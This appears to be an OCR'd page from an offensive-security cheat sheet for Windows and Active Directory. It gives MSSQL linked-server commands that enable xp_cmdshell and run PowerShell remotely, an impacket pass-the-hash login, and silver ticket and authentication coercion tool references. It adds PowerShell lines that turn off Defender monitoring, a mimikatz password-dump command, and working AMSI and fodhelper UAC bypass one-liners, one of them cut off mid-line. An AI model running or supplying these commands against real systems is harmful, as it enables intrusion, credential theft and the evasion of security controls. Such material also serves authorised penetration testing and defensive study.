 Check for linked servers:
select * from master..sysservers

Run query on linked server:
select * from openquery("SRV02",'select system_user')

Use server link to execute system commands on a remote server:
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT SRV02
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT SRV02
EXEC ('xp_cmdshell ''powershell.exe -exec bypass -c "..."'';') AT SRV02

Use server link to execute system commands on own server via a remote server (go to remote & come back):
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT SRV01') AT SRV02
EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT SRV01') AT SRV02
EXEC ('EXEC (''xp_cmdshell ''''powershell.exe -exec bypass -c "..."'''';'') AT SRV01') AT SRV02

Shell via impacket:
impacket-mssqlclient example.com/'srv01$'@<ip> -port 1433 -windows-auth -hashes :<hash>

Silver Tickets

Requirements: Password/Hash of an account that is used to run a service (e.g. mssql, webserver)
Result: Impersonate any user in the context of this application
Tools: Impacket, Mimikatz

Detailed example in this blog post.
Auth Coercion

Result: Force a target system to authenticate to your machine (in order to relay it to LDAP/SMB/ADCS)

    MS-FSRVP https://github.com/ShutdownRepo/ShadowCoerce (not default, needs File Server VSS Agent Service)
    MS-DFSNM https://github.com/Wh04m1001/DFSCoerce (default on DCs)
    MS-EFSRPC https://github.com/topotam/PetitPotam (default on DCs but several methods patched)
    MS-RPRN (Printerbug) https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py (requires print spooler running)

Misc

Disable AV (as administrator):
Add-MpPreference -ExclusionPath C:\temp
Set-MpPreference -DisableRealtimeMonitoring $true

Dump passwords:
.\mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" "exit"

AMSI Bypass:
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils"){$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)


UAC Bypass:
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute>
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "powershell -exec bypass -enc ...=" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
